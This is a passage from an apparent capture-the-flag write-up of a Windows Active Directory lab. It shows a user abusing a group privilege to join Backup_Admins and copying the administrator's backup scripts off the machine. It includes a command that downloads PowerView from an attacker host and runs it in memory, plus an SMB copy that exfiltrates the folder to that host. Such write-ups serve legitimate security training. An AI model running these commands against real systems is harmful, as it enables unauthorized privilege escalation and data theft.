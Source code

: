 This privilege makes it possible for her to add arbitrary users to the group. Add `claire` herself to the group.

```powershell
PS C:\Users\claire> $pv = (New-Object Net.Webclient).DownloadString("http://10.10.14.81/PowerView.ps1")
PS C:\Users\claire> IEX $pv; Add-DomainGroupMember -Identity BACKUP_ADMINS -Members claire; Get-DomainGroupMember -Identity BACKUP_ADMINS

GroupDomain             : HTB.LOCAL
GroupName               : Backup_Admins
GroupDistinguishedName  : CN=Backup_Admins,OU=Groups,DC=HTB,DC=LOCAL
MemberDomain            : HTB.LOCAL
MemberName              : ranj
MemberDistinguishedName : CN=Ranj Singh,CN=Users,DC=HTB,DC=LOCAL
MemberObjectClass       : user
MemberSID               : S-1-5-21-2648318136-3688571242-2924127574-1136

GroupDomain             : HTB.LOCAL
GroupName               : Backup_Admins
GroupDistinguishedName  : CN=Backup_Admins,OU=Groups,DC=HTB,DC=LOCAL
MemberDomain            : HTB.LOCAL
MemberName              : claire
MemberDistinguishedName : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL
MemberObjectClass       : user
MemberSID               : S-1-5-21-2648318136-3688571242-2924127574-1130
```

Logging out and logging back in via SSH allows the shell to take on the context of `claire`'s new membership in the group. Thanks to this access, `claire` now has access to `C:\Users\Administrator\Backup Scripts` folder.

```powershell
PS C:\users\administrator\desktop\Backup Scripts> ls


    Directory: C:\users\administrator\desktop\Backup Scripts


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         11/3/2017  11:22 PM        845 backup.ps1
-a---         11/2/2017   9:37 PM        462 backup1.ps1
-a---         11/3/2017  11:21 PM       5642 BackupScript.ps1
-a---         11/2/2017   9:43 PM       2791 BackupScript.zip
-a---         11/3/2017  11:22 PM       1855 folders-system-state.txt
-a---         11/3/2017  11:22 PM        308 test2.ps1.txt
```

Exfiltrate the folder to the attacking machine via SMB for offline inspection.

```powershell
PS C:\users\administrator\desktop> cp -Recurse "Backup Scripts" \\10.10.14.81\tgihf
```
